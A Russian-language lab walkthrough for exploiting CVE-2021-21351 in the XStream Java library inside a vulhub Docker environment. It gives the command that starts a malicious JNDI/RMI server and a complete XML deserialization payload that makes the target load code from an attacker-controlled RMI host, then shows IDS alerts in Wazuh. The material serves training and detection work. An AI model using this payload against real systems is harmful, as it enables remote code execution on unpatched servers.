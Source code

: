 # CVE-2021-21351

### Материалы:

* [https://access.redhat.com/security/cve/CVE-2021-21351](https://access.redhat.com/security/cve/CVE-2021-21351)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-21351](https://nvd.nist.gov/vuln/detail/CVE-2021-21351)
* [https://x-stream.github.io/CVE-2021-21351.html](https://x-stream.github.io/CVE-2021-21351.html)

XStream - это Java-библиотека для сериализации объектов в XML. В XStream до версии 1.4.16 существует уязвимость, которая может позволить удаленному злоумышленнику загрузить и выполнить произвольный код с удаленного хоста, манипулируя обрабатываемым входным потоком.

### Эксплуатация уязвимости&#x20;

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/xstream/CVE-2021-21351

Для запуска уязвимого сервера выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, отправив на которую следующий POST-запрос, мы можем протестировать успешность запуска среды&#x20;

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 95

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>Test</name>
  <age>10</age>
</user>
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

> Если у вас возникают ошибки сервера в ответе, попробуйте поменять версию Java 18 на машине с помощью команды sudo update-alternatives --config java, установив перед этим соответствующий пакет

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно поднять зловредный RMI-сервер на "атакующей" машине (можно использовать уже имеющуюся) с помощью [данного](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) архива

Для этого выполните команду:

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A ваш-ip(атакующий)
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий POST-запрос на сервер:

```
POST / HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wz-api=default
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://ip_RMI-сервера:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>

```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл "/tmp/success", свидетельствующий об успешной эксплуатации уязвимости

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata о сериализации полезной нагрузки Java через RMI-ответ

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

